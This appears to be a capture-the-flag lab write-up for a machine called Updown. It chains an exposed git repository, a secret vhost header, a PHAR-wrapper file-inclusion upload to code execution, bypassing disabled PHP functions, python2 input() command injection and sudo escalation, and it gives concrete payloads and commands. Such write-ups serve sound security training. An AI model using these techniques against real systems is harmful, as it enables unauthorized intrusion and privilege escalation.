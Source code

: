 # Updown \[Medium]

## Report

An exposed git directory gives us access to source code. A file upload functionality at a dev virtual host which is only accessible by adding a specific header as mentioned in the .htaccess file is used to perform LFI2RCE as we control an 'include' parameter on the index page of the website calling our uploaded file using PHAR filter. phpinfo reveals a list of disabled functions, so we call a reverse shell using `proc_open`

FInd a legacy python script that accepts input, use it to spawn a new shell and read SSH keys of user 'developer'. This user can run a binary via sudo and GTFObins does the rest.

Our wordlist for ffuf does not look for git which is insane, modify that please, also recursively scan subdirectories too from now on, just because it showed 301, we thought there was no scope there.

## Cheatsheet

```
Special-Dev: only4dev [In HTTP header to visit dev vhost]
<?php phpinfo(); ?>
zip info.0xdf info.php
python2 dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/[MD5]/info.0xdf/info
import('os').system('bash')
```

## Loot

### Creds

`md5sum authorized_keys id_rsa.pub` \[SSH Public key for developer]

### Proof

{% code title=".htaccess" %}
```
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```
{% endcode %}

If the Required-Header 'Special-Dev' is present with value 'only4dev' we access the dev vhost

{% code title="index.php" %}
```php
<b>This is only for developers</b>
<br>
<a href="?page=admin">Admin Panel</a>
<?php
	define("DIRECTACCESS",false);
	$page=$_GET['page'];
	if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){
		include($_GET['page'] . ".php");
	}else{
		include("checker.php");
	}	
?>
```
{% endcode %}

php file extension is appended to any value passed here as long as standard LFI directories are not mentioned

#### checker.php

```php
if($_POST['check']){
  
	# File size must be less than 10kb.
	if ($_FILES['file']['size'] > 10000) {
        die("File too large!");
    }
	$file = $_FILES['file']['name'];
```

Next it checks against a denylist of file extensions:

```php
	# Check if extension is allowed.
	$ext = getExtension($file);
	if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
		die("Extension not allowed!");
	}
```

Then it creates a directory from the hash of the current time in the `uploads` directory, and moves the file into that:

```php
	# Create directory to upload our file.
	$dir = "uploads/".md5(time())."/";
	if(!is_dir($dir)){
        mkdir($dir, 0770, true);
    }
  
  # Upload the file.
	$final_path = $dir.$file;
	move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");
```

It then does some stuff with the file, reading it, and checking websites. I’m going to ignore that bit for now. But I will note that at the end, it does delete the file (`unlink`):

```php
  # Read the uploaded file.
        $websites = explode("\n",file_get_contents($final_path));

        foreach($websites as $site){
                echo date("Y.m.d") . "<br>";
                $site=trim($site);
                echo "testing " . $site . ".<br>";
                if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
                        $check=isitup($site);
                        if($check){
                                echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
                        }else{
                                echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
                        }
                }else{
                        echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
                }
        }

  # Delete the uploaded file.
        @unlink($final_path);
        echo "file is deleted?";
}
```

Our play here is to upload a file here and access it via the 'page' parameter in 'index.php'

Normal files are deleted via unlink method so our poison byte play wouldn't work&#x20;

Uploads directory listing enabled so we can see where our files are being stored (we can't fetch the exact timestamp here as it's not present in response headers, bruteforce it at that point if needed)

I thought to upload a php file bypassing the file extension filter and use a revshell in a line since they split file based on newlines.

```php
$check=isitup($site);
```

This function also isn't defined anywhere so we really can't reverse engineer this process.

Break the logic such that it doesn't get to the delete part, use non ASCII characters

That's when you zip it (or any archive really)

SInce they are just filtering based on file extension names we can rename ours to something random and it will pass eg. 0xdf

Reading the read upload file function, we see they are blocking PHP filters for file, data and ftp within our file, zip is checked at file upload itself

{% code title="info.php" %}
```
<?php phpinfo(); ?>
```
{% endcode %}

`zip info.0xdf info.php`

Visiting file at [`http://dev.siteisup.htb/?page=phar://uploads/[MD5]/info.0xdf/info`](http://dev.siteisup.htb/?page=phar://uploads/828afc50efeaa61d10099d92a4f618c5/info.0xdf/info)

We get the info page and see a lot of disabled functions, we can't just call a standard web shell like we always do

A legacy python tool dfunc-bypasser automates this for us as long as we feed it the phpinfo page

`python2 dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/[MD5]/info.0xdf/info`

proc\_open not disabled, google a shell using that

As www-data, find a python script and binary running with SUID in user 'developer' home

```python
www-data@updown:/home/developer/dev$ python2 siteisup_test.py 
Enter URL here:http://10.10.14.6/test
Traceback (most recent call last):
  File "siteisup_test.py", line 3, in <module>
    url = input("Enter URL here:")
  File "<string>", line 1
    http://10.10.14.6/test
        ^
SyntaxError: invalid syntax
```

The binary performs the same action, calling the python script to perform lookup

**`import`**`('os').system('id')`

**`import`**`('os').system('bash')`

We are only user 'developer' since the process ran under it, but group remains same and we can't access the user flag yet.

We can access the SSH keys and copy the private key to our system. Ensure the public key is in authorized\_keys on target system. Don't forget to chmod your private key.

### Enumeration

```
80
siteisup.htb
VHOST dev : 403 (Forbidden)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Tried to access dev vhost via input param didnt work
Tried port fuzzing also didnt work

HTTP/1.1 301 Moved Permanently
Date: Sat, 02 Aug 2025 03:16:41 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://127.0.0.1/dev/
Content-Length: 304
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 03:16:41 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

HOW TO ACCESS THE DEV VHOST FROM HERE

access to git repo from dev subdir
htaccess file show rules to access vhost
add header Special-Dev: only4dev

 $websites = explode("\n",file_get_contents($final_path));
 our rev shell must be in one line
```
